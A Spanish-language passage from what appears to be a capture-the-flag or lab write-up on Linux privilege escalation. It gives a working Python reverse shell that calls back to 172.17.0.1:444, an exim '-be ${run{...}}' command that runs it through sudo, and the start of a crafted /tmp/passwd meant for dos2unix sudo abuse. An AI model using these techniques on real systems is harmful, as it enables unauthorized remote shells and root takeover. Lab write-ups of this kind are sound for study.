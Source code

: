 Vemos **exim** con permisos SUDO:

Por lo que creamos una reverse shell  y nos ponemos en escucha :

```bash

import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
import pty
pty.spawn("/bin/bash")

```

Y por otro lado ejecutamos :
```bash

sudo -u pepe /usr/sbin/exim -be '${run{/bin/bash -c "python3 /tmp/rev.py"}}'

```

YA ESTAMOS COMO PEPE.

Vemos **dos2unix** con permisos SUDO :

```bash
pepe@f37db1a842bf:/tmp$ sudo -l
Matching Defaults entries for pepe on f37db1a842bf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pepe may run the following commands on f37db1a842bf:
    (ALL : ALL) NOPASSWD: /usr/bin/dos2unix

```

Creamos un **/tmp/passwd** :

```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
maci:x:1000:1000::/home/maci:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
darksblack:x:1001:1001:,,,:/home/darksblack:/bin/bash
pepe:x:1002:1002:,,,:/home/pepe:/bin/bash
Debian-exim:x:101:104::/var/spool/exim4:/usr/sbin/nologin
```